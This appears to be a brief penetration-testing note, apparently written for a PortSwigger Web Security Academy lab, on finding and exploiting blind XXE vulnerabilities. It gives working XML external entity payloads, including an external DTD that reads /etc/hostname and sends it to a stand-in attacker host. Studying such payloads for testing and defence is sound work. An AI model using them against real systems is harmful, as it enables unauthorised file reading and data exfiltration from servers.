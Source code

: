 You can detect XXE vulnerability blind through making requests to another domain - this can be done with either webhooks.site or burp collaborator.


If you find a request sending xml:  
Open collaborator/webhooks and obtain your unique url  
Insert on of the following external entity definition after the xml declaration:  
`<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://UNIQUE_URL_HERE"> ]>`  
`<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> ]>`  
Sometime you may need to replace a value with reference to the external entity: `&xxe;` or, at the end of your definition: `> %xxe; ]>`  
Go to your webhooks/collaborator window. You should see some DNS and HTTP interactions.  

The next step is to weaponise the blind interaction.  
If you can host a file on the site or set one up yourself on webhooks.site, put the below in:  
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://yoursite/?x=%file;'>">
%eval;
%exfil;
```

Then call in the vuln request with:  
`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://ac981f881e87f5de8110868c012f0023.web-security-academy.net/exploit"> ]>`
